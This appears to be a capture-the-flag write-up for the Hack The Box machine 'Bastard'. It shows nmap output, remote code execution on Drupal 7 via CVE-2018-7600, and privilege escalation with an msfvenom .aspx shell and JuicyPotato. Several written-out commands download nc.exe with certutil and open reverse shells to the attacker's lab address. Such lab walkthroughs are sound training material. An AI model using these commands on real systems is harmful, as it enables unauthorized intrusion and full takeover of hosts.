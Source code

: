 # Bastard
> Silver Garcia

## Enumeration
Nmap
```bash
└──╼ [★]$ sudo nmap -T4 -A -p- 10.10.10.9
Starting Nmap 7.93 ( https://nmap.org ) at 2024-04-18 16:46 BST
Nmap scan report for 10.10.10.9
Host is up (0.0060s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to Bastard | Bastard
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012:r2
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT     ADDRESS
1   8.06 ms 10.10.14.1
2   7.71 ms 10.10.10.9
```

Found that http service is using Drupal 7.0

## Getting access
Got access to machine using `CVE-2018-7600` RCE exploit. (https://github.com/pimps/CVE-2018-7600)

1. Execute command to download nc.exe
```bash
python3 drupa7-CVE-2018-7600.py http://10.10.10.9 -c "certutil -urlcache -f http://10.10.14.5:8000/nc.exe nc.exe"
```
2. Set listener and execute command to get reverse shell
```bash
python3 drupa7-CVE-2018-7600.py http://10.10.10.9 -c "nc.exe -e cmd.exe 10.10.14.5 4040"
```

## Privilege escalation

Got IIS privileges by placing `.aspx` reverse shell on `C:\inetpub\drupal-7.54\`.
1. place `.aspx` msfvenom reverse shell file on drupal-7.54 folder.
2. Set listener
3. Visit `http://10.10.9/shelliis.aspx`
4. Got IIS shell

Got `SeImpersonatePrivileges` with IIS user.

Got system privileges with JuicyPotato.exe
```cmd
JuicyPotato.exe -l 1337 -p C:\Windows\system32\cmd.exe -a "/c nc.exe -e cmd.exe 10.10.14.5 4545" -t *
```
